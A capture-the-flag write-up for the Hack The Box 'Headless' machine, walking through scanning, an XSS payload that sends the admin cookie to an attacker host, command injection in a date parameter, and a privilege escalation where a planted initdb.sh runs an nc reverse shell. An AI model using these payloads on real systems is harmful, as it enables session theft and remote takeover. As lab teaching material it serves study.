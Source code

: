 <div style="display: flex; align-items: center;">
  <img src="https://labs.hackthebox.com/storage/avatars/26e076db204a74b99390e586d7ebcf8c.png" alt="Headless Machine Avatar" style="margin-right: 20px;" width="170"/>
  <div>
    <p style="font-size:35px;"><b>Headless</b></p>
    <p style="font-size:20px;">Linux • <font color="#8ac73e">Easy</font></p>
  </div>
</div>

## Nmap

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.8
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
...
5000/tcp open  upnp?
...
```

## Website

When accessing `http://10.10.11.8:5000/` we get a mostly blank page with a box and a countdown for when the site will be live.\
It also includes a button that leads to `/support` with a contact form that seems to be working.

We will look for any directories other than `/` and `/support`.
```bash
$ gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt                                           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dashboard            (Status: 500) [Size: 265]
/support              (Status: 200) [Size: 2363]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We find `/dashboard`, and we get a `401 UNAUTHORIZED` when accessing it.

## Check /support form

Unfortunately, when trying to inject this `<script>alert('testing')</script>` into one of the fields we get a `Hacking Attempt Detected` message :(

![Hacking Attempt Detected message](images/headless-haching-attempt-detected.png)

## XSS to steal cookie

Well, that didn't work, but we did see that it returned us the request headers.

We know that we need an administrator's cookie in order to access the blocked resources, so we'll try to steal a cookie using xss.\
We will be following [n00's article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e).

```bash
$ nc -lvp 4444
listening on [any] 4444 ...
```

By adding `<script>var i=new Image(); i.src="http://10.10.14.31:4444/?cookie="+btoa(document.cookie);</script>` in our request (in the Repeater tab in Burp), we will get a response to our server.

![Burp modified Request](images/headless-xss-steal-cookie-burp.png)
![XSS result cookie](images/headless-xss-steal-cookie-server-data.png)

We will decode the cookie.
```bash
$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Now we can use it in our browser, and access `/dashboard`!

## Dashboard

![/dashboard](images/headless-dashboard-accessed.png)

We send a request and once again send in to Repeater in Burp.\
We see that manipulating the parameter this time (date) doesn't raise any errors, and even returns some results.

![Request with date=2023-09-04;ls](images/headless-date-injection-req-ls.png)
![Response with date=2023-09-04;ls](images/headless-date-injection-res-ls.png)

We set up a netcat server once more, to try and get access to bash.

![Request with date=2023-09-04;nc -e /bin/bash 10.10.14.31 4444](images/headless-date-injection-req-bash.png)

![Bash access](images/headless-date-injection-bash-access.png)

We can use script as shown by [zweilosec](https://zweilosec.github.io/posts/upgrade-linux-shell/) to upgrade it to interactive shell: `script -qc /bin/bash /dev/null`, as well as `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '`.\
![interactive bash](images/headless-interactive-bash.png)

## Looking for flags

We find the user flag at `/home/dvir/user.txt`.

This following one took a while to be honest, but we find this:
```bash
dvir@headless:~/app$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Checking out `syscheck` we see that it executes a program called `initdb.sh`, with no specified full path. So all we have to do is create our own `initdb.sh` and execute it in place of the "original" `initdb.sh`.

We open another listener with netcat and then:

```bash
dvir@headless:~/app$ echo "nc -e /bin/bash 10.10.14.31 4444" > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
dvir@headless:~/app$ sudo /usr/bin/syscheck
```

Now we have a bash with root access, and can get the flag!

```bash
$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.48] from headless.htb [10.10.11.8] 58568
script -qc /bin/bash /dev/null
root@headless:/home/dvir/app#
```
